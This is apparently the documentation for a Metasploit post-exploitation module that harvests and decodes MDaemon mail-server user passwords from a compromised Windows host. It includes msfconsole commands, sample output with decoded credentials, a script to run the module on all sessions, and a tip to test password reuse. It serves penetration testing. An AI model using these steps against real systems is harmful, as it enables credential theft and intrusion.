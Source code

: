 ## Vulnerable Application

Download and install the email server: [www.altn.com](http://www.altn.com/Downloads/MDaemon-Mail-Server-Free-Trial/)

You require a valid licence, but there's a demo for 30 days.

### Verified

1. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 64 bits.
2. AWS --> Microsoft Windows Server 2012 R2 Base - ami-8d0acfed Instance: t2.micro @ July-August 2016 x64 bits with meterpreter 32 bits. Worked,  but couldn't find the path through Register.
3. VM --> Microsoft Windows 7 on VMWare.

## Verification Steps

1. Get a meterpreter on a windows machine that has MDaemon installed.
2. Load the module: `use post/windows/gather/credentials/mdaemon_cred_collector`
3. Set the correct session on the module.
  1. Optional: you can add the remote path of the installation, especially if the software is installed on a strange path and the module can't find it..
4. Run the module and enjoy the loot.

## Options

### RPATH
  The remote path of the MDaemon installation.
  If the machine runs on 64bits and the meterpreter is 32 bits, it won't be able to find the installation path in the registry, but it will search some default paths. If it is installed on a non-default path you can give the RPATH and it will work.

## Scenarios

**Normal mode**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > exploit 
```

Output:

```
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMTP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.smtp_ser_754168.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.pop3_ser_608271.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194802_default_127.0.0.1_MDaemon.imap_ser_769125.txt
[*] Post module execution completed
```

**Verbose true**
```
msf > use post/windows/gather/credentials/mdaemon_cred_collector 
msf > set SESSION 1
msf > set verbose true
msf > exploit 
```

Output:

```
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:
[*] Found MDaemon installation at C:
[*] Searching MDaemon installation at C:\Program Files
[*] Searching MDaemon installation at C:\Program Files (x86)
[*] Searching MDaemon installation at C:\Program Files
[*] Checking for Userlist in MDaemons directory at: C:\MDaemon\App
[+] Configuration file found: C:\MDaemon\App\userlist.dat
[+] Found MDaemons on WIN-F7ANP3JL4GJ via session ID: 1
[*] Downloading UserList.dat file to tmp file: SFJOXMHZEFWA
[*] Cracking xJiKYdun7OvjVLnM
[*] Password p0%AhBxvs4IZ
[*] Cracking ocnTldjRpaejTg==
[*] Password Manuel123.
[*] Collected the following credentials:
[*]     Usernames: 2
[*]     Passwords: 2
[*] Deleting tmp file: SFJOXMHZEFWA
[*]     Extracted: MDaemon:p0%AhBxvs4IZ
[*]     Extracted: webmaster:Manuel123.
[*] SMTP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.smtp_ser_114741.txt
[*]     Extracted: webmaster:Manuel123.
[*] POP3 credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.pop3_ser_369240.txt
[*]     Extracted: webmaster:Manuel123.
[*] IMAP credentials saved in: /root/.msf4/loot/20160831194819_default_127.0.0.1_MDaemon.imap_ser_028427.txt
[*] Post module execution completed
```

### Scenarios Extended
**Run on all sessions**
If you wish to run the post against all sessions from framework, here is how:

1. Create the following resource script:
```
framework.sessions.each_pair do |sid, session|
  run_single("use post/windows/gather/credentials/mdaemon_cred_collector")
  run_single("set SESSION #{sid}")
  run_single("run")
end
```
2. At the msf prompt, execute the above resource script:
`msf > resource path-to-resource-script`

**Meterpreter on email server**

If you have a meterpreter running on a server that has MDaemon installed, run the module and you will get all the users and passwords of the email server. Quite useful for trying password reuse and/or checking the strength of the passwords.

Note: MDaemon can store the passwords on a database, in that case the module won't work, but you can search for the database location, username and password and still get them :)

